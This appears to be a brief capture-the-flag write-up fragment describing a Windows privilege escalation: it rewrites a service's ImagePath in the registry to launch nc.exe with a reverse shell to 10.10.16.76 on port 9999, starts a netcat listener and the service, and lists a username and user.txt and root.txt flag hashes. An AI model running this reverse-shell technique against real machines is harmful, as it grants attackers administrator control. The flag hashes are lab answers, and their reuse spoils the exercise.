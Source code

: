 REG add HKLM\System\CurrentControlSet\Services\SensorDataService /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\temo\nc.exe 10.10.16.76 9999 -e cmd.exe" /f

then start a listner before nc -lnvp 9999
sc.exe start SensorDataService 
boom u have admin shell now 
software_user23
----------------------
user.txt - 2f9392de28a8fc47fe2508a403dae3ab
root.txt - 31c22359535630fb3bf8bef7476ac512

